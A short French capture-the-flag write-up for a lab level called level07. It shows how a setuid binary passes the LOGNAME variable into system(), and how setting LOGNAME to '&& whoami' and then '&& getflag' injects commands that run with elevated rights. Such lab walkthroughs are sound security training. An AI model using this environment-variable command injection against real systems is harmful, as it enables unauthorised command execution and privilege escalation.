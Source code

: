 On trouve dans le dossier **home** un binaire ./level07, qui, si on le lance nous affiche un message:
<pre><code>> ./level07
level07</code></pre>

On cherche à savoir ce que le binaire fait, pour cela on utilise **ltrace**:
<pre><code>> ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620
getegid()= 2007
geteuid()= 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
getenv("LOGNAME")= "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff62, 0xb7e5ee55, 0xb7fed280)= 18
system("/bin/echo level07 "level07
--- SIGCHLD (Child exited) ---
<... system resumed> )= 0
+++ exited (status 0) +++
</code></pre>

On observe que le binaire fait un **getenv** et appelle **system** pour faire un **echo**

On fait un <code>env</code> pour voir la varibale **LOGNAME**:
<pre><code>> env
...
LOGNAME=level07
...
</code></pre>

On tente de faire une injection avec un <code>whoami</code> pour verifier que l'injection fonctionne, mais aussi pour connaître les droits avec lesquels le binaire est lancé.

<pre><code>> LOGNAME="&& whoami"
> ./level07
flag07
</code></pre>

>On observe **flag07**, ce qui veut dire que nous pouvons faire un **getflag**

<pre><code>> LOGNAME="&& getflag"
> ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
</code></pre>

